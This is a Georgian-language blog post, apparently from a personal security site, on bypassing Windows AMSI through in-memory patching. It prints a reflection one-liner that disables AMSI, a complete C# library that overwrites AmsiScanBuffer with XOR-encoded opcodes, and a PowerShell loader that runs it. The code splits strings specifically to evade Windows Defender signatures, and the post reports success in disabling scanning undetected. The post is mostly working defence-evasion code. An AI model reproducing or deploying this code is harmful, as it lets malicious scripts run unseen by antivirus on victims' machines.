 ```yaml
---
title: "Amsi First"
date: 2023-03-07T01:38:06+04:00
draft: false
---
```


# AMSI In-Memory Patching / P/Invoke


<br><br>
რომ დაგუგლოთ `amsi bypass` ან `amsi evasion`, უამრავ გამზადებულ “ქომანდებს” ნახავთ რომელთა ნახევარი უბრალოდ არ იმუშავებს. მიზეზი კი ის არის, რომ ანტივირუსი, რომელიც სისტემაზე არის, მუდმივად განიცდის განახლებას და “მზა” ქომანდები სულაც არ არის ისეთ “მზამზარეული” როგორიც ერთი შეხედვით ჩანდა.

მაგალითად, ავიღოთ ეს ქომანდი, რომელიც 2016 წელს არის დაინტიფიცირებული:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

ამის მიზანი არის .NET reflection ტექნიკის დახმარებით მოახერხოს მემორიში amsiInitFailed ცვლადის შეცვლა, რის მერეც გაითიშება AMSI.

თუმცა, პრობლემა იმაშია რომ ‘AmsiUtils’ სტრინგი იდენტიფიცირდება როგორც მავნე:

![Untitled](/images/amsi-1/Untitled.png)

მაშასადამე, საჭირო ხდება სტრინგის ე.წ “დამახინჯება” ანუ ობფუსკაცია.

მაგალითად:

![Untitled](/images/amsi-1//Untitled%201.png)

![Untitled](/images/amsi-1//Untitled%202.png)

თუმცა, პრობლემა ჯერ ვერ მოგვარდა. პრობლემა იმაშია რომ მსგავსი ე.წ “ბაიპასის” მეთოდები დამოკიდებულია პიროვნების კრეატიულობაზე (თუმცა დიდად არ მოითხოვს კრეატიულობას). საჭირო ხდება სხვანაირი მიდგომა. საჭიროა ქომანდების ძირფესვიანად გააზრება.

მსგავს შემთხვევებში საჭიროა გავიგოთ რა ქომანდებს ვაკოპირებთ, და ზოგადად როგორ მუშაობს AMSI.

თუმცა ეს პოსტი ეხება ცოტა სხვა საკითხს. იმისათვის, რომ არ ვიწვალოთ ბევრი ახალი იდეის მოფიქრებაზე, დაგვიჭრდება პირდაპირ მემორიში საჭირო ადგილას საჭირო ინსტრუქციების შეცვლა.

მაგალითად, powershell.exe როცა ვხსნით, ხდება amsi.dll ის ჩატვირთვა, შემდგომ ხდება AmsiInitialize() ფუნქციის გამოძახება, რომელიც ამზადებს გარემოს AMSI - სთვის. შემდგომ როცა ახალ ქომანდს გავუშვებთ ხდება:

1. AmsiOpenSession() ის გამოძახება
2. AmsiScanBuffer() ის გამოძახება
3. AmsiCloseSession() ის გამოძახება ბოლოს.

ამჯერად ავიღოთ AmsiScanBuffer და ვნახოთ მისი ინსტრუქციები მემორიში windbg - ის დახმარებით:

ვსვავთ breakpoint - ს, amsi!AmsiScanBuffer - ზე

![Untitled](/images/amsi-1//Untitled%203.png)

და როდესაც რაიმე ქომანდს გავუშვებთ, და-trigger-დება:

![Untitled](/images/amsi-1//Untitled%204.png)

![Untitled](/images/amsi-1//Untitled%205.png)

ქვემოთა სურათზე ვხედავთ, რომ მოწმდება არგუმენტები, რომელიც გადავეცით AmsiScanBuffer - ს. თუ რაიმე არასწორია, მაშინ “ვხტებით” ინსტრუქციაზე:

```c
# 0x80070057h = E_INVALIDARG
mov eax, 0x80070057h
```

![Untitled](/images/amsi-1//Untitled%206.png)

შესაბამისად აქედან ვიგებთ, რომ თუკი AmsiScanBuffer ს რაიმე რეგისტრი არ მოეწონა, მაშინ ხტება ბოლო ინსტრუქციებზე და ითიშება “amsi”.

დავწეროთ C# ში კოდი, რომელიც იპოვის მიმდინარე პროცესის მემორიში არსებულ amsiScanBuffer ფუნქციას და შევლის მას.

```csharp
using System;
using System.Reflection;
using System.Security.Policy;
using System.Runtime.InteropServices;
using System.Text;
using System.Collections.Generic;

namespace ClassLibrary1
{
    public class Class1
    {
		// საჭირო WinAPI ფუნქციების დეკლარაცია
        [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        
        public static void runner()
        {
			// amsi.dll მოდულის მისამართის "აღება"
            IntPtr amsiPtr = GetModuleHandle("amsi.dll");
            StringBuilder haha = new StringBuilder();
			// "AmsiScanBuffer" - როგორც ერთ სტრინგს, Defender აღიქვავს, როგორც მავნე signature
            haha.Append("Am");
            haha.Append("si");
            haha.Append("Sc");
            haha.Append("an");
            haha.Append("Buffer");

			// "AmsiScanBuffer" მისამართის აღება amsi.dll მოდულიდან.
            var amsiScanBuf = GetProcAddress(amsiPtr, haha.ToString());

			// ეს hex ბაიტები იყო და-XOR-ებული 0xC სთან - ეს საჭირო იყო defender ისთვის გვერდის ავლისთვის.
            //new opcodes
            byte[] encodedopcodes = new byte[] { 0xB4, 0x5B, 0x0C, 0x0B, 0x8C, 0xCF };
            byte[] decodedOpcodes = new byte[6];
            List<byte> objList = new List<byte>();

            foreach (byte opcode in encodedopcodes)
            {
                objList.Add((byte)(opcode ^ 0xc));
            }
            objList.CopyTo(decodedOpcodes);

			// memory page - ისთვის შესაბამისი პერმიშენების მინიჭება
            VirtualProtect(amsiScanBuf, (UIntPtr)encodedopcodes.Length, 0x40, out uint oldProtect);
            Marshal.Copy(decodedOpcodes, 0, amsiScanBuf, decodedOpcodes.Length);
        }
    }
}
```

აღსანიშნავია, რომ ეს უნდა შევინახოთ როგორც .DLL ფაილი და შემდგომ იგი უნდა ჩავტვირთოთ როგორც ახალი .NET Assembly:

```powershell
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Public\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

პირველ რიგში დავრწუმნდეთ, რომ ეს ჩვენი სტრინგი: “AmsiUtils” დაფიქსირებადია Windows Defender - ის მიერ:

![Untitled](/images/amsi-1//Untitled%207.png)

ჩავტვირთოთ ახალი .NET Assembly მიმდინარე პროცესში:

![Untitled](/images/amsi-1//Untitled%208.png)

![Untitled](/images/amsi-1//Untitled%209.png)

შესაბამისად, დავინახეთ რომ პირდაპირ მემორიში "მაქინაციების" დახმარებით მივაღწიეთ მიზანს, გავთიშეთ amsi ისე, რომ ანტივირუსი არ დათრიგერდა.

და ბოლოს, ყურადღებას ვამახვილებ შემდეგ კოდის ნაწილზე:


```csharp
 		[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

```

თუ გსურთ, რომელიმე WinAPI ფუნქციის დაიმპორტება და რომ არ იწვალოთ ამ ფუნქციებისთვის დეკლარაციისთვის პარამეტრების მიწერა, შეგილიათ გამოიყენოთ ეს საიტი: https://www.pinvoke.net/


![Untitled](/images/amsi-1/pinvoke.png)